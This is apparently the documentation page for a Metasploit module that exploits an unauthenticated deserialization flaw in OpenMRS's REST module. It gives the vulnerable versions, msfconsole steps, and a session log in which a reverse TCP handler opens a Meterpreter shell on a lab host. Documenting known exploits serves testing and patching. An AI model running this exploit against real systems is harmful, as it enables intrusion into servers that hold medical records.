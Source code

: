 ## Vulnerable Application

  OpenMRS is an open-source platform that supplies
  users with a customizable medical record system.

  There exists an object deserialization vulnerability
  in the `webservices.rest` module used in OpenMRS Platform
  for versions below `v2.24.0`. Unauthenticated remote code
  execution can be achieved by sending a malicious XML payload
  to a Rest API endpoint such as `/ws/rest/v1/concept`.

  Vulnerable versions of the software can be found [here](https://sourceforge.net/projects/openmrs/files/releases/).

  Tested on OpenMRS Platform `v2.1.2` and `v2.21` with Java
  8 and Java 9.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/openmrs_deserialization```
  4. Do: ```set TARGETURI <uri>```
  5. Do: ```set RHOSTS <ip>```
  6. Do: ```run```
  7. You should get a shell.

## Scenarios

### OpenMRS Platform `v2.1.2`

  ```
  msf > use exploit/multi/http/openmrs_deserialization
  msf exploit(multi/http/openmrs_deserialization) > set rhosts 192.168.37.176
  rhosts => 192.168.37.176
  msf exploit(multi/http/openmrs_deserialization) > set targeturi /openmrs-standalone
  targeturi => /openmrs-standalone
  msf exploit(multi/http/openmrs_deserialization) > check
  [*] 192.168.37.176:8081 - The target appears to be vulnerable. OpenMRS platform version: 2.1.2
  msf exploit(multi/http/openmrs_deserialization) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444
  [*] Target is running OpenMRS
  [*] Sending payload...
  [*] Sending stage (3021284 bytes) to 192.168.37.176
  [*] Meterpreter session 3 opened (192.168.37.1:4444 -> 192.168.37.176:47056) at 2019-12-04 12:18:50 -0600

  meterpreter > getuid
  Server username: uid=1000, gid=1000, euid=1000, egid=1000
  meterpreter > sysinfo
  Computer     : 192.168.37.176
  OS           : Ubuntu 18.04 (Linux 5.0.0-36-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```
